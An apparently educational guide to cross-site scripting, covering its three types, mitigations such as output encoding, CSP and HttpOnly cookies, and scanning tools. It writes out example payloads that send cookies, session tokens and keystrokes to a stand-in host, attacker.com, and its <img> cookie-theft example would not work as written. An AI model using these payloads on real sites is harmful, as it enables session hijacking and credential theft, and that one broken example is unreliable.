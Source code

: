 ## Cross-Site Scripting (XSS)
Cross-Site Scripting (XSS) is **a web application vulnerability where attackers inject malicious scripts into web pages viewed by other users**. These scripts execute in the victim’s browser, enabling attackers to **steal sensitive data, hijack sessions, or perform other malicious actions**.

## 1. Types of XSS Attacks

### a. Reflected XSS
  - Definition: Malicious scripts are **injected into a web application and immediately reflected back** to the victim in the response.
  - How It Works
    1. An attacker sends a **malicious link containing the payload** (e.g., in a URL query string).
    2. The web server **includes the payload in the response** without proper sanitization.
    3. The victim **clicks the link, and the script executes in their browser**.
  - Example
    - If the server embeds q directly into the page without escaping, the script runs in the victim’s browser.
```
https://example.com/search?q=<script>alert('XSS')</script>
```      
  - Use Cases for Attack
    - **Phishing links**.
    - Delivering payloads for credential theft or session hijacking.

### b. Persistent (Stored) XSS
  - Definition: The malicious script is **stored on the server** (e.g., in a database) and served to users whenever they visit the affected page.
  - How It Works
    1. The attacker **submits** malicious input (e.g., a script) to a website.
    2. The website **stores this input** (e.g., in a user comment or profile).
    3. The malicious script is displayed and executed in other users’ browsers **when they view the content**.
  - Example:
    - A comment form accepts:
      - Other users viewing the comment section trigger the script.
```
<script>alert('XSS')</script>
```
  - Use Cases for Attack:
    - Defacing websites.
    - Targeting multiple users simultaneously with session theft or malware.

### c. DOM-Based (Client-Side) XSS
- Definition: The malicious script is **injected and executed entirely in the browser, without involving the server**. The application’s client-side JavaScript manipulates the DOM insecurely.
- How It Works
  1. The attacker **crafts a malicious URL with a payload** (e.g., in a hash fragment or query parameter).
  2. The victim **clicks the link, and the vulnerable client-side JavaScript executes the payload in the DOM**.
  3. **No server-side** reflection or storage occurs.
- Example:
  - JavaScript dynamically modifies the page based on the URL fragment:
```
document.getElementById('output').innerHTML = location.hash;
```

  - URL:
```
https://example.com/#<script>alert('XSS')</script>
```

- Use Cases for Attack:
  - Exploiting insecure JavaScript handling of user input.

## 2. Using \<img> Tags in XSS Attacks
  - \<img> tags can be used to **load external resources or execute scripts** indirectly by exploiting cross-origin HTTP requests.
  - Example of \<img> in XSS
    - This sends the user’s cookies to the attacker’s server.
```
<img src="https://attacker.com/steal?cookie=" + document.cookie>
```
  - Why \<img> Tags Are Effective
    - They don’t require user interaction to trigger.
    - Browsers automatically fetch the resource, making it a reliable vector for cross-origin requests.

## 3. Common XSS Attack Payloads
  - Stealing Cookies
```
<script>document.location="https://attacker.com/?cookie=" + document.cookie</script>
```
  - Keylogging
```
<script>
document.onkeypress = function(e) {
  fetch("https://attacker.com/log?key=" + e.key);
};
</script>
```
  - Session Hijacking
```
<script>
fetch("https://example.com/logout");
fetch("https://attacker.com/steal?session=" + document.cookie);
</script>
```

## 4. Mitigating XSS

### a. Input Validation and Sanitization
  - **Validate** all user **input on the server side and client side**.
  - Escape special characters (<, >, "):
    - Use libraries like DOMPurify for sanitization.

### b. Output Encoding
  - Properly **encode output** to prevent scripts from being interpreted as code:
    - HTML Encoding:
```
& -> &amp;
< -> &lt;
> -> &gt;
" -> &quot;
```

  - JavaScript Encoding
    - Escape values embedded in JavaScript code.

### c. Content Security Policy (CSP)
  - **Enforce a strict CSP** to limit where scripts can be loaded from:
```
Content-Security-Policy: script-src 'self' https://trusted-cdn.com
```

### d. HTTPOnly and Secure Cookies
  - **Mark cookies as HttpOnly** to prevent access via JavaScript.
  - Example
```
Set-Cookie: sessionId=abc123; HttpOnly; Secure
```

### e. Avoid Dangerous Practices
  - Avoid directly inserting untrusted input into the DOM using innerHTML, document.write, or eval.

## 5. Detection Tools for XSS Vulnerabilities

| Tool | Purpose |
| ---- | ------- |
| Burp Suite | Automated scanning for XSS vulnerabilities in web applications. |
| OWASP ZAP | Open-source tool to detect XSS and other web vulnerabilities. |
| Acunetix | Comprehensive security scanner for web applications. |
| DOM Snitch | A Chrome extension to detect DOM-based XSS vulnerabilities. |

## 6. Summary of XSS Types

| Type | Description | Example |
| ---- | ----------- | ------- |
| Reflected XSS | Malicious script is reflected off the server and executed in the victim’s browser. | Payload in URL query parameters. |
| Persistent XSS | Malicious script is stored on the server and served to all users viewing the affected resource. | Injected into comment fields or user profiles. |
| DOM-Based XSS | Malicious script is executed in the client’s browser without server involvement. | Exploits insecure JavaScript like innerHTML or location.hash. |

## 7. Best Practices to Prevent XSS
1. Use a Framework with Built-in Security
  - Frameworks like React or Angular handle DOM manipulation securely by default.
2. Enable a Content Security Policy (CSP)
  - Restrict script sources to trusted domains.
3. Validate and Sanitize Input
  - Reject or sanitize dangerous input.
4. Escape and Encode Output
  - Encode all dynamic data before rendering.
5. Train Developers
  - Educate developers about XSS risks and secure coding practices.

**XSS attacks exploit web applications to execute malicious scripts in a user’s browser, leading to data theft, session hijacking, or worse**. Understanding the different types of XSS (Reflected, Persistent, DOM-Based) and employing robust mitigation strategies—such as input validation, CSP, and output encoding—are essential for securing modern web applications against this pervasive threat.